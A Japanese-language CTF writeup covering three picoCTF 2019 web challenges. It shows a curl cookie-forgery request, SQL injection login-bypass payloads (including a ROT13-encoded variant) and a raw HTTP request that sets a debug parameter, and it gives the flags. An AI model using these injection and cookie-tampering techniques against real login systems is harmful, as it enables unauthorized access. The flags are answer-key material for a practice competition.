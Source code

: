 ```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation)"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: "きゃぷあめ"
---
```

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
2週間、お疲れ様です。

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
# [Web Exploitation]: Open-to-admins (200 points)
- - -
## Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
## Solution
```
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
```


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
# [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
## Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
## Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
```
username
' /*

password
*/ or 3=3 -- &debug=1
```

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
# [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
## Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
## Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

```
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
```

```
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
```

'nqzva' は、'admin' のRot13ですね。

<br />
いつものこの子を、
```
' or 1=1 --
```

Rot13して以下のようにします。
```
' be 1=1 --
```

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

